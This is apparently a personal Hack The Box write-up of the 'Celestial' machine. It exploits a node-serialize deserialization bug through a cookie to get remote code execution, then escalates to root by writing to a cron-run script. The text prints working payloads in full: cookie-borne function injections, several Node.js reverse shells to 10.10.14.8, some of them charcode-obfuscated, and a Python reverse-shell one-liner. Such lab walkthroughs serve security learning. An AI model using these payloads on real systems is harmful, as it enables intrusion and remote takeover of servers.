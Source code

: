 # Celestial Writeup

Name: Celestial
Date:  19/5/2023
Difficulty: Medium  
Goals:  
- On the list to do list
- With minimal understanding of the direction finish it quickish
Learnt:
- Once again the python2 script comes through
Beyond Root:
- Reead some APT stuff

- [[Celestial-Notes.md]]
- [[Celestial-CMD-by-CMDs.md]]

I watch the Ippsec video over my lunch break and it being on my list of Helped-Throughs I though I would just try it out. I know it involves Node deserialization and a cronjob that upset Ippsec. 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Celestial/Screenshots/ping.png)
	

Masscan did not work :/, but evenutally I found: 

![](cookiedummy.png)

It pretty plain except for a cookie
![](percent3disequals.png)

decoding it:
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"FIELD1","country":"FIELD2","city":"FIELD#","num":"FIELD4-NUM"}
// Next break the cookie for enumeration
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} - "
```

And it json and the response shows Express a NodeJS
![](expressintheburp.png)

My articles currently:

![](archive0.png)
and
![](archive1.png)

[Hacktricks Deserialization article](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)'s section on Deserialization attacks for [Nodejs](https://nodejs.org/en)

Test to see what is evaluated base on what reflected back to us first - make Node do maths
![](decodechangeandencodepoc.png)

Confirming concatenation of two strings
![](pocandconfrmingevaluationoftype.png)

Next always break for error codes:
```json
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} 
```
 Original for comparison
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](nodealwayhasverboserrors.png)

We get a username, location that the web is running the npm module from and some directory information. With indication that is serializing with the serialization.js library. [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)
```json
"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"

{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

// Third Attempt
{"username":"Dummy","country":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","city":"Lametown","num":"2"}

// Second Attmept
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","num":"2"}

// First Attempt:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

First attempt
firstattempt.png

Second attempt
![](secondattempt.png)

[304 - Not Modifed](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) *"client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method, such as [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) or [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD), or when the request is conditional and uses an [`If-None-Match`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) or an [`If-Modified-Since`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) header."*

Third attempt
![](thirdattempt.png)

Forth attempt - Different Error though, but the same as if we broke json
![](forthattempt.png)

```
{"username":_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},"country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

```

## Source Code review

Copying and pasting the source code from [here](https://www.npmjs.com/package/node-serialize?activeTab=code)

It is global variable:
![](funcflag.png)

Where is it used?
![](funcflagusage.png)
funcsStr would then be appended to the FUNCFLAG
![](line49.png)
Basic if we pass the flag we can pass a function
![](lines7475.png)

## Exploit

Check:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/f85f2cb4c60c5d4c869794f04c409826dc52ae86/Insecure%20Deserialization/Node.md
```json
"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"
// Invalid username
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
// pinging backski !! YAY 
{"username":"sun","country":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 3 10.10.14.8', function(error,stdout, stderr) { console.log(stdout) });}()","city":"Lametown","num":"2"}
```

rcepocpinging.png

Node reverse shell from HackTools
```node
// I check to compare
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("\cmd", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();

// https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})()
// Removing ()
function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()
```

```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()","city":"Lametown","num":"2"}

// did not work pynodejsshell
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}","city":"Lametown","num":"2"}
// Worked!
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

## Foothold

We are the sun %d00 %d00 %d00 %d00
![](wearesun.png)

Get a second shell
```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

## PrivEsc

[Internet Printing Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp)  
![](631.png)

![](scriptcron.png)

A fuller version
![](probablyapathexploit.png)

Escape quotes and wait
```bash
 echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.8\",8444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")" > script.py
```

And we are root:
![](rootnopwnkit.png)

## Beyond Root Reading

https://attack.mitre.org/techniques/T1059/007/  [Chaes](https://attack.mitre.org/software/S0631) is a multistage information stealer written in several programming languages that collects login credentials, credit card numbers, and other financial information. Ialso uses NodeJS Puppeer npm package.

https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf

